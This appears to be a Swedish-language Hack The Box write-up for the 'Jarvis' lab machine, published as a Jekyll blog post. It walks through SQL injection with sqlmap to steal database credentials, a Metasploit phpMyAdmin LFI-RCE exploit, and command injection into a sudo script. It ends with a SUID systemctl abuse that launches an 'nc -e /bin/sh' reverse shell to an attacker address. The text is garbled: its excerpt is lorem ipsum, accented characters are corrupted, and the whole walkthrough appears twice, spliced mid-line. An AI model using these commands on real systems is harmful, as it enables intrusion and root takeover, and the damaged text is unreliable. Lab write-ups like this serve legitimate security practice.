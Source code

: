 ```yaml
---
layout: single
title: Jarvis - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-jarvis/jarvis_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-jarvis/jarvis_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt